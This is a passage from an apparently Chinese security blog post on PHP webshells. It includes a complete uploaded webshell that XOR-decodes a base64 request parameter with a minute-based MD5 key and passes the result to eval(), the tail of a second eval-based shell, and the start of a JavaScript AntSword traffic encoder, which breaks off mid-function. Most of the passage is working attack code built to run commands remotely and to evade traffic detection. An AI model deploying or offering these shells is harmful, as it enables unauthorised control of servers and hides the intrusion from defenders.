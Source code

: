 ```php
    $cmd .= $de;
  }
}
eval($cmd);
?>
```



流量效果

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105154744.png)



### 其他

先知上的一篇文章

上传的马

```php
<?php
date_default_timezone_set("PRC");
$key=md5(date("Y-m-d H:i",time()));
class TEST{
    function encode($key){
    @$post=base64_decode($_REQUEST['test']);
    for($i=0;$i<strlen($post);$i++){$post[$i] = $post[$i] ^ $key[$i%32];}
    return $post;}
    function ant($data)
    {return eval($this->encode("$data"));}
}
$test=new TEST;
$test->ant($key);
?>
```





编码器

```javascript
'use strict';
// code by yzddmr6
/*
* @param  {String} pwd   连接密码
* @param  {Array}  data  编码器处理前的 payload 数组
* @return {Array}  data  编码器处理后的 payload 数组
*/
module.exports = (pwd, data, ext={}) => {
  function xor(payload){
    let crypto = require('crypto');
    Object.assign(Date.prototype, {
        switch (time) {
            let date = {
                "yy": this.getFullYear(),
                "MM": this.getMonth() + 1,
                "dd": this.getDate(),
                "hh": this.getHours(),
                "mm": this.getMinutes(),
                "ss": this.getSeconds()
            };
            if (/(y+)/i.test(time)) {
                time = time.replace(RegExp.$1, (this.getFullYear() + '').substr(4 - RegExp.$1.length));
            }
```